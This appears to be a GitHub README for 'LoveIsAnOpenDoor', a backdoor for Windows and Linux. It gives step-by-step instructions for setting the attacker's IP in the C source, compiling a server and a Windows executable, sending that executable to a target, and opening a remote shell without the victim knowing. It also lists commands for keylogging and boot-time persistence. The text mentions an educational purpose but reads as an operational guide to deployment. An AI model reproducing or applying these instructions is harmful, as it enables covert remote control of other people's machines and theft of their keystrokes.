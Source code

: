 # LoveIsAnOpenDoor Malware (BackDoor)


## Getting Started
LoveIsAnOpenDoor is currently developing malware can be used in both Windows, Linux. It can be executed on both 32 and 64-bits systems. After it is executed, it creates connection between attacker and target machine and provides attacker to get control of target systems command line without knowledge of the victim.


### Prerequisites
Two machines; an attacker and a target.

### Installation
Note: You will only need .c files, other files will be recompiled for you attacker machine. 
So instead of downloading those file follow the following steps.
- Replace your attacker machine's IP address in LoveIsAnOpenDoor.c and Server.c 
For the Malware ;
```
ServIP = "ENTER ATTACKER MACHINE IP ADDRES SHERE" ; 
ServPort = 50005 ; 
```
For the Server;
```
server_address.sin_addr.s_addr = inet_addr("ENTER ATTACKER MACHINE IP ADDRES HERE");
server_address.sin_port = htons(50005);
```
- Install ming into you attacker device 
	```
	apt-get install mingw64 
	```
- Use following command to compile the Server
	```
	gcc Server.c -o Server 
	```
- Use following command to compile the exe file. 
	```
	i686-w64-mingw32-gcc -o LoveIsAnOpenDoor.exe LoveIsAnOpenDoor.c -lwsock32 -lwininet 
	```
- Send the compiled LoveIsAnOpenDoor.exe to target machine  (Already sent)
- Start Server by using 
	```
	./Server
	```
- Execute exe file in target machine.
- Check for if shell is opened in attacker machine.

## Basic Usage 
If shell is opened you can start executing codes in target machine on your backdoor.
Try whoami, ls etc commands.

	```
	whoami 
	netstat
	dir
	```
## Keylogging
Use following command to start keylogger in target system. It will create a file named windows in the desktop of the target device and holds each key pressed. Hence this software is only for educational purpose, those files are not hidden in the system.
```
start_keylog	
```
## Persistance
Gain persistance on the remote system by executing payload in boot time by using following command
```
persist
``

## Authors

* **Özlem Körpe** - *Initial work* - [ozlemkorpe](https://github.com/ozlemkorpe)
